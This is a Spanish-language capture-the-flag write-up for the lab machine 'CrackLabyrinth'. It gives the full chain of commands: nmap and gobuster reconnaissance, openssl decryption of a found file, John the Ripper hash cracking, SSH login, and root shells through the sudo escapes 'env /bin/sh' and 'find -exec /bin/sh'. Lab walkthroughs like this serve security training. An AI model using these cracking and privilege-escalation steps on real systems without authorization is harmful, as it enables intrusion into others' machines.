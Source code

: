 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 5/10/2024'
hidden: true
---
```


# CrackLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de Apache.

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

<figure><img src="../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://172.17.0.2/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Utilizamos John the Ripper para intentar crackear las contraseñas.

```bash
john --wordlist=/usr/share/john/password.lst bob_passwords.hash
```

<figure><img src="../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Desciframos estos hashes y se nos proporciona 3 contraseñas y al probar vemos que **letmein** es la correcta. Toca iniciar sesión de los dos usuarios a través del servicio **SSH**.

<figure><img src="../.gitbook/assets/imagen (65).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (68).png" alt=""><figcaption></figcaption></figure>

#### 1. **Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo /usr/bin/env /bin/sh
```

* Este comando ejecuta el binario `/bin/sh` con privilegios de root mediante `sudo` y `env`, dándote una shell de root.
* Una vez ejecutado, tendrás acceso root en la máquina.

#### 2. **Escalada de privilegios con `find` (Alice)**

De forma similar, el comando `find` también puede ser explotado para obtener una shell con privilegios elevados si tiene permisos de sudo.

**Comando de GTFObins (find) para obtener una shell de root:**

```bash
sudo find . -exec /bin/sh \; -quit
```

* Este comando usa `find` para ejecutar `/bin/sh` con privilegios de root utilizando `sudo`.
* El flag `-exec` permite ejecutar el comando `/bin/sh`, y `-quit` detiene el comando `find` una vez que la shell ha sido lanzada.

<figure><img src="../.gitbook/assets/imagen (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (70).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.
